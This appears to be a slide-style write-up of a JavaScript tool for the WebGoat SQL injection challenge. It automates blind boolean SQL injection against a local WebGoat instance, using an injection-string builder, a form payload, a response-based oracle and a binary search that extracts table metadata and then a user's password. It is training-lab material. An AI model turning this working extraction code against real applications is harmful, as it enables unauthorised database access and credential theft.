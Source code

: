 
  ...future,
  ...highlight,
  ...myTheme,
}

## Setup

* Node.js (v16.9.1)
* Vim for text processing
* Postman(for manipulating HTTP requests)

---
## Steps 

```
1. Validate input (start and end)
2. Get the maximum table name length
3. Get the count of tables
4. For each table:
      Get table Name
          Get count of columns for the table
          Get all column names
5. Find the table with column 'password' and a column which can have 'tom' as value
6. Check the tables for tom with a query
7. Find each character for the field where there's an entry for tom
```

---
## Making HTTP requests
The [axios](https://www.npmjs.com/package/axios) module was used for making HTTP requests
```javascript
export const makeRequest = config => {
  return axios(config)
    .then(function (response) {
      return response.data;
    })
    .catch(function (error) {
      console.log(error.data);
    });
}

```
---

## Boolean test with HTTP request

```
export const booleanTest = async (type, value, sqlQuery) => {
  let data = getPayload(type, value, sqlQuery) 
  let config = {
    method: 'put',
    url: 'http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge',
    headers: getHeaders(),
    data : data
  };

  let response = await makeRequest(config); 

  if(response.feedback.includes('already exists'))
    return true
  else 
    return false
}

```
---

## Setting up injection string and the payload
```
export const getInjectionString = (type, value, sqlQuery) => {
  let comparison = ''
  if(type == 'min')
    comparison = `(${sqlQuery}) < ${value}`
  else if (type == 'max')
    comparison = `(${sqlQuery}) > ${value}`
  else if (type == 'exists')
    comparison = `exists (${sqlQuery})`
  else
    //test for equality if we do not recognize the type of injection
    comparison = `(${sqlQuery}) = ${value}`
  return `tom\' and ${comparison} and \'1\'=\'1`
}

export const getPayload = (type, value, sqlQuery) => {
  const injectionString = getInjectionString(type, value, sqlQuery) 
  return `username_reg=${injectionString}&email_reg=y&password_reg=aa&confirm_password_reg=aa`;
}
```

---

## Binary search

The *binarySearch* method searches for the value in O(log(n)) time.
```
export const binarySearch = async (min, max, sqlQuery) => {
  while(min <= max) {
    let mid = Math.floor((min + max)/ 2)

    if(await booleanTest('min', mid, sqlQuery)) {
      max = mid - 1
    } else if(await booleanTest('max', mid, sqlQuery)) {
      min = mid + 1
    } else 
      return mid
  }
}
```

---

## Confirm Value

Confirms value tests for the value return by *binarySearch* and tests it with equality.
```
export const confirmValue = async (value, sqlQuery) => {
  // Confirm the retrieved value
  if(await booleanTest(true, value, sqlQuery)) {
    return value
  } else {
    console.log(`something's wrong. binarySearch did not find the correct value`)
      console.log(`\n${sqlQuery}`)
      process.exit(1)
  }
}
```
---
## Passing SQL queries to `binarySearch` and `confirmValue`
```
const tableMaxLength = async () => {
  const sqlQuery = 'select max(char_length(table_name)) from information_schema.tables';
  let maxValue = await binarySearch(10, 64, sqlQuery)
  return confirmValue(maxValue, sqlQuery)
}
```





